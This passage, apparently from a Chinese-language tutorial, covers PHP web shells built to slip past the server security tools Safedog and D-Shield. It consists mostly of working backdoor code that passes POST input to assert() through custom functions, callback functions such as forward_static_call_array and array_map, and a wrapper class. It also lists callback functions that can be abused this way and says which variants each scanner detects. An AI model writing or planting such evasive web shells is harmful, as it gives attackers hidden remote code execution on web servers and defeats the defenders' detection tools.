 ```php
    $a($_POST['x']);
}
kdog(assert);
?>
//另一端
<?php 
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>
```
效果一样，这种绕过方法，对安全狗还是比较有效的，在d盾面前就显得小儿科了，不过后面会讲到如何用定义函数的方法来绕过d盾
# 4. 回调函数
```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```
回调函数大部分已经被安全软件加入全家桶套餐 所以找到一个生僻的不常用的回调函数来执行 比如
```php
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>
```
这个函数能过狗，但是D盾显示是一级
# 5. 回调函数变形
前面说过众多回调函数已经被加入豪华套餐了，怎么绕过呢，其实也很简单 那就是定义个函数 或者类来调用
```php
//定义一个函数
<?php
function test($a,$b){
    array_map($a,$b);
}
test(assert,array($_POST['x']));
?>
//定义一个类
<?php
class loveme {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new loveme(assert,array($_POST['x']));
```